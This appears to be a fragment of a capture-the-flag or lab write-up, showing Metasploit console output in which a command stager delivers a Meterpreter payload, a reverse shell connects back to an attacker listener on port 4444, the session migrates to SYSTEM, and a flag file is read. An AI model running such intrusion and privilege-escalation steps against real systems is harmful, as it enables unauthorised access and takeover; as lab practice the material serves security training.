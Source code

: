 ```
[*] Command Stager progress -  92.33% done (94116/101936 bytes)
[*] Command Stager progress -  94.34% done (96162/101936 bytes)
[*] Command Stager progress -  96.34% done (98208/101936 bytes)
[*] Command Stager progress -  98.35% done (100252/101936 bytes)
[*] Sending stage (176195 bytes) to 10.0.16.20
[*] Meterpreter session 1 opened (10.10.21.2:4444 -> 10.0.16.20:49791) at 2023-01-28 20:22:12 +0530
[*] Session ID 1 (10.10.21.2:4444 -> 10.0.16.20:49791) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is ffvdc.exe (3060) as: SERVER\Administrator
[*] Session is Admin but not System.
[*] Will attempt to migrate to specified System level process.
[-] Could not migrate to services.exe.
[-] Could not migrate to wininit.exe.
[*] Trying svchost.exe (896)
[+] Successfully migrated to svchost.exe (896) as: NT AUTHORITY\SYSTEM
[*] nil
[*] Command Stager progress - 100.00% done (101936/101936 bytes)

meterpreter > 
```

```
meterpreter > sysinfo
Computer        : SERVER
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > search -f flag.txt
Found 1 result...
    c:\flag.txt (32 bytes)
meterpreter > cat c:\\flag.txt
3c716f95616eec677a7078f92657a230
```